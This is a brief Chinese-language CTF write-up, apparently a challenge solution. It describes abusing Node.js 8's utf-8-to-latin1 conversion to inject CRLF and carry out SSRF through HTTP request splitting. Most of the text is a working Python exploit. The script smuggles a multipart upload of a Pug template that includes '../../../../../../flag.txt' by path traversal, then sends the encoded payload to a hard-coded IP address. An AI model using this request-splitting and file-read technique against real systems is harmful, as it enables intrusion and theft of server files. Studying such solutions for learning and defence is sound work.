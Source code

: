 
我们利用nodejs 8及之前的`utf-8`转`latin1`的漏洞来进行ssrf



```
> http.get('http://example.com/\u010D\u010A/test').output
[ 'GET /čĊ/test HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n' ]
```



payload:

```python
import hashlib
from urllib.parse import quote, unquote
import requests
import socket                                                                                                          

file='''------WebKitFormBoundaryVneK8P7cpLasJSn8
Content-Disposition: form-data; name="file"; filename="a.pug"
Content-Type: ../template

doctype html
html
  head
      
  body
    include ../../../../../../flag.txt
------WebKitFormBoundaryVneK8P7cpLasJSn8--
'''.replace("\r\n","\n").replace("\n","\r\n")
body=''' HTTP/1.1
Host: x
Connection: keep-alive

POST /file_upload HTTP/1.1
Host: x
Content-Length: %d
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVneK8P7cpLasJSn8
Connection: keep-alive

%s
GET /core HTTP/1.1
Host: x
Connection: keep-alive
x:''' %(len(file),file)
body=body.replace("\r\n","\n").replace("\n","\r\n")
uni = { 
    '/': quote('\u012f'.encode('utf-8')),
    ' ': quote('\u0120'.encode('utf-8')),
    '\n': quote('\u010a'.encode('utf-8')),
    '\r': quote('\u010d'.encode('utf-8')),
    '"': quote('\u0122'.encode('utf-8')),
    "'": quote('\u0127'.encode('utf-8')),
    '!': quote('\u0121'.encode('utf-8')),
    'o': quote('\u016f'.encode('utf-8')),
    'e': quote('\u0165'.encode('utf-8')),
}
print(uni)
host=""
payload = '%s' % body
for c, encoded in uni.items():
    payload = payload.replace(c, encoded)
print(payload)
requests.get("http://123.57.212.112:33321/core?q="+payload)

```